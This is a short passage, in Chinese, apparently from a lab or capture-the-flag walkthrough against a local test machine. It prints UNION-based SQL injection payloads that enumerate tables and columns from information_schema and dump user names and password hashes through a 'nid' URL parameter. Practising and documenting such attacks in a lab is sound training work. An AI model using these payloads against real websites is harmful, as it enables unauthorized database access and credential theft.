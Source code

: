 好了，看到这里应该人不多了， 就上`union`测试了，前面不直接使用，也是为了练我自己

这是之前测试的截图，现在放在这里，证明可以进行`union`测试

![](./pic-8/20.jpg)

以上步骤不再重复，已经知道该查询什么了，构造语句

```shell
union select group_concat(table_name) from information_schema.tables where table_schema='d7db'--+

union select group_concat(column_name) from information_schema.columns where table_name='users'--+

http://192.168.10.12/?nid=-1 union select group_concat(name,'|',pass) from users--+
```

![](./pic-8/21.jpg)
